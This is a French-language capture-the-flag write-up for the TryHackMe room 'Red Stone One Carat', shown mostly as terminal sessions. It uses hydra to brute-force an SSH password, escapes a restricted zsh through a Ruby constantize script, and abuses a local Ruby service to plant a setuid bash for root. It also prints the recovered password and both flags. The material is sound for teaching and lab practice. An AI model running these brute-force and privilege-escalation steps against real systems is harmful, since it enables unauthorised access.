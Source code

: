 # Red Stone One Carat # 

## Task 1 Info Intro ##

## Task 2 Practical Flags ##

**SSH password**

Sur le site tryhackme on nous donne le non d'utilisateur qui est  : noraj
Le mot de passe contient bu.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.118.100 redstone.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/wordlists/rockyou.txt | grep -a 'bu' > bu.txt

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l noraj -P bu.txt ssh://redstone.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-25 22:40:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 126339 login tries (l:1/p:126339), ~7897 tries per task
[DATA] attacking ssh://redstone.thm:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 126163 to do in 11:49h, 16 active
[22][ssh] host: redstone.thm   login: noraj   password: cheeseburger
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-25 22:41:52

```

On récupère tout les mots de passes qui ont bu.  
On brute force le mot de passe avec hydra.   
On trouve le mot de passe qui est : cheeseburger.   

**user.txt**

```bash
The authenticity of host 'redstone.thm (10.10.118.100)' can't be established.
ECDSA key fingerprint is SHA256:t6GH+aBHvu6sjHajA+1CT0alpHjumGxNp2LdvKb1vWU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'redstone.thm,10.10.118.100' (ECDSA) to the list of known hosts.
noraj@redstone.thm's password: 
getent:6: command not found: grep
compdump:136: command not found: mv
red-stone-one-carat% ls
zsh: command not found: ls
```

On se connecte sur shell limité.  

```bash
red-stone-one-carat% echo $PATH
/home/noraj/bin
red-stone-one-carat% export
HOME=/home/noraj
LANG=en_US.UTF-8
LANGUAGE=en_US:
LOGNAME=noraj
MAIL=/var/mail/noraj
OLDPWD=/home/noraj
PATH=/home/noraj/bin
PWD=/home/noraj
SHELL=/bin/rzsh
SHLVL=1
SSH_CLIENT='10.9.228.66 57668 22'
SSH_CONNECTION='10.9.228.66 57668 10.10.118.100 22'
SSH_TTY=/dev/pts/0
TERM=xterm-256color
USER=noraj
XDG_RUNTIME_DIR=/run/user/1001
XDG_SESSION_ID=6

```

echo et export fonctionne.  

Avec echo on peut faire plusieurs actions : 
echo ./* pour lister les fichiers.   
echo ./.* pour lister les fichiers cachés.  
echo $() pour lire les fichiers.  

```bash
red-stone-one-carat% echo ./*
./bin ./user.txt
red-stone-one-carat% echo $(<./user.txt)
THM{3a106092635945849a0fbf7bac92409d}
```

Dans le répertoire actuel on trouve le fichier user.txt.   
On lit le fichier et on a le flag.   
Le flag est : THM{3a106092635945849a0fbf7bac92409d}    

**root.txt**

```bash
red-stone-one-carat% echo ../../../../../bin/b???    
../../../../../bin/bash
red-stone-one-carat% export SHELL=/bin/bash
export: SHELL: restricted

red-stone-one-carat% echo ./bin/*
./bin/rzsh ./bin/test.rb

red-stone-one-carat% test.rb
#!/usr/bin/ruby

require 'rails'

if ARGV.size == 3
    klass = ARGV[0].constantize
    obj = klass.send(ARGV[1].to_sym, ARGV[2])
else
    puts File.read(__FILE__)
end
```

On essaie de changer la variable SHELL mais c'est impossible.  
On repère un fichier test.rb.  
On l'exécute, on voie le code source du fichier, il y a une instructio constantize qui est là peu être dangereuse.   

```bash
red-stone-one-carat% test.rb Kernel exec '/bin/zsh'
red-stone-one-carat% export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```
On exécute par test.rb, le shell /bin/zsh.  
On modifie la variable PATH pour indiquer au shell ou se trouve les exécutables.   

```bash
red-stone-one-carat% nc -z -v -n -w 1 127.0.0.1 1-65535
(UNKNOWN) [127.0.0.1] 59308 (?) open
(UNKNOWN) [127.0.0.1] 49332 (?) open
(UNKNOWN) [127.0.0.1] 31547 (?) open
(UNKNOWN) [127.0.0.1] 22 (ssh) open
red-stone-one-carat% nc 127.0.0.1 31547
$ id
undefined local variable or method `id' for main:Object

```

On scan les ports sur le local host.   
On se connecte sur le port 31547.  
On test une commande, ça ne fonctionne pas, il semble que c'est du ruby.  

```bash
$ exec %q!cp /bin/bash /tmp/bash; chmod +s /tmp/bash!
red-stone-one-carat% /tmp/bash -p
bash-4.4# id
uid=1001(noraj) gid=1001(noraj) euid=0(root) egid=0(root) groups=0(root),1001(noraj)
bash-4.4# cat /root/root.txt
THM{58e53d1324eef6265fdb97b08ed9aadf}bash-4.4# 
```

On copie bash dans tmp avec les droits setuid.  
On exécute notre bash. 
On a un shell avec les droits root.   
On lit le flag qui est : THM{58e53d1324eef6265fdb97b08ed9aadf}   
